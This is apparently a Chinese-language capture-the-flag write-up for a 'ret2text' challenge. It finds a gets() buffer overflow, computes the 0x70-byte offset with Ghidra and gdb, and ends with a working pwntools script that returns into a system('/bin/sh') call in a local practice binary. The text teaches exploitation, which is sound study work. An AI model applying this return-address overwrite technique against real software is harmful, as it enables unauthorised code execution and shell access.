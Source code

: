使用file查看程序基本信息

![img_9.png](img/img_9.png)

使用checksec查看程序保护

![img.png](img/img.png)
看到只有nx保护，即：堆栈不可执行，也就说shellcode无法注入

使用ghidra查看程序
![img_1.png](img/img_1.png)
可以看到gets这个函数，白给的shell，因为堆栈不可写，所以我们去.text段找system('/bin/sh')
![img_2.png](img/img_2.png)
发现/bin/sh地址为0x0804863a，找到后尝试溢出gets，分析main函数发现gets(local_47),需要通过向local_47写入数据达到溢出gets的返回地址，通过返回地址从而运行secure函数中的system("/bin/sh")从而pwn掉这个程序

```python
system = 0x0804863a
```

首先需要知道s，ebp，esp的地址，函数的返回地址，gets函数call的地址，要保证传入gets的数据能正好达到溢出并且不破坏call gets函数
使用gdb + pwndbg动态调试程序

![img_4.png](img/img_4.png)
通过分析源码可以看到call gets的地址, 那么开始获取ebp, esp, local_47的地址

使用gdb + pwndbg动态调试：

使用b * 080486ae在call gets函数时打断点
![img_5.png](img/img_5.png)
```python
ebp = 0xffffd4b8
```

```python
esp = 0xffffd430
```

通过分析源码得知local_47 = esp + 0x1c

```python
local_47 = 0xffffd44c
```

通过分析源码得知function_return的地址
![img_6.png](img/img_6.png)

```python
function_return = 0x080486a7
```

使用ebp - local_47获得偏移量为0x6c

local_47相对于function_return的索引为
![img_7.png](img/img_7.png)
![img_8.png](img/img_8.png)
0x080486ab - function_return = 4

``` python
payload = b'a' * (0x6c + 4) + p32(system)
```

exp编写
```python
#!/bin/python3

from pwn import *

# 由于是在本地打所以使用process()加载文件
shell = process('./ret2text')

system = 0x0804863a
# 因为程序为32位,所以使用p32()包裹system地址，ide可能会报错，运行没有影响
payload = b'a'* 0x70 + p32(system)

shell.sendline(payload)
shell.interactive()

```
